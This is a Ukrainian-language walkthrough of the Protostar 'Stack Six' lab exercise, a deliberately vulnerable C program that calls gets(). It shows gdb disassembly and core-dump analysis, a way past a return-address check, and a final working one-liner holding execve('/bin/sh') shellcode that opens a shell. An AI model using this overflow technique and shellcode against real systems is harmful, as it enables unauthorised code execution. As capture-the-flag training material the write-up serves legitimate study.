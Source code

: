 ## [Stack Six](http://exploit.education/protostar/stack-six/)

Stack6 демонструє, що відбувається, коли у вас є обмеження щодо адреси повернення.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Знайдемо буфер стека для переповнення:
```
gdb ./stack6
...
disassemble getpath
```

![Disassemble getpath](img/disassemble_getpath.png)

Компілятор використовує EBP як орієнтир для локальних змінних, що полегшує обчислення. 
Буфер розташований на ```0x4c``` або 76 байта від EBP, тому для перезапису зворотної адреси нам просто потрібно записати ще 4 байти. 
Ми могли б знайти буфер користувача у пам'яті під час тестування таким чином:  
```
ulimit -c unlimited
python -c "print('B' * 80 + 'AAAA')" | ./stack6
...
gdb ./stack6 /tmp/core.11.stack6.1642
...
x/40x $esp-100
```

![Core Dump](img/core_dump.png)

Отже, маємо адресу ```0xbffffс9c```

Якщо спробувати атакувати як раніше, то нічого не вийде, бо у програмі є перевірка значення адреси повернення:  
```python -c "print('\xcc' * 80 + '\xbf\xff\xfc\x9c'[::-1])" | ./stack6``` 

![Bzzzt](img/bzzzt.png) 

### Duplicate payload  

Можливо, ми зможемо знайти десь у пам'яті адрусу, яка не починається з ```0xbf......```. 
Давайте завантажимо дамп ядра з попереднього прикладу та спробуємо знайти буфер за більш зручною адресою:  
```
gdb ./stack6 /tmp/core.11.stack6.1642
...
info files
...
find /w1 0xb7fde000, 0xb7fe2000, 0x42424242
```

![Pattern found](img/pattern_found.png)

Витративши деякий час на перебір варіантів виявляється, що наш буфер дійсно знаходиться за іншою адресою, ```0xb7fde000```. Отже, маємо:  
```(python -c "print('\x90' * 4 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (80 - 24 - 4) + '\xb7\xfd\xe0\x04'[::-1])"; cat) | ./stack6```  

![Shell test](img/shell_test.png)